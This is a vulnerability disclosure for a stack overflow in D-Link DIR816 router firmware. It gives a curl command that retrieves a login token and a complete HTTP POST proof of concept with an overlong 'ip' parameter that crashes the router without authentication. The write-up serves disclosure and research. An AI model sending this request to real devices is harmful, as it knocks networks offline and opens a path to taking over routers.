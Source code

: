 # D-Link Vulnerability

Vendor:D-Link

Product:DIR816

Version:1.10CNB05

Type:Stack Overflow

Author:Jiaqian Peng

Mail:pengjiaqian@iie.ac.cn

Institution:Institute of Information Engineering,Chinese Academy of Sciences(IIE, CAS)



## Vulnerability description

We found an stack overflow vulnerability in D-Link router with firmware which was released recently, allows remote attackers to crash the server.（without authentication）

Gets the token ID.

```
curl http://192.168.1.1/dir_login.asp | grep tokenid
```

**Stack Overflow**

In `goahead` binary:

In the router's `form2lansetup.cgi` function, `ip` is directly passed by the attacker, If this part of the data is too long, it will cause the stack overflow, so we can control the `ip` to execute arbitrary code.

As you can see here, the input has not been checked. The parameter `ip` is directly copy to a local variable placed on the stack, which overrides the return address of the function, causing buffer overflow.

<div  align="center"><img src="./images/1.png" style="zoom:60%;" /></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.



## PoC

We set `ip` as **192.168.1.1 aaaaa......10,** , and the router will crash, such as:

```http
POST /goform/form2lansetup.cgi HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 282
Origin: http://192.168.1.1
Connection: close
Referer: http://192.168.1.1/d_lan.asp
Cookie: curShow=
Upgrade-Insecure-Requests: 1

ip=192.168.1.1 aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa.10&mask=255.255.255.0&submit.htm%3Flan.htm=Send&tokenid=1804289383
```



## Result

The target router crashes and cannot provide services correctly and persistently.

<div  align="center"><img src="./images/2.png" style="zoom:60%;" /></div>
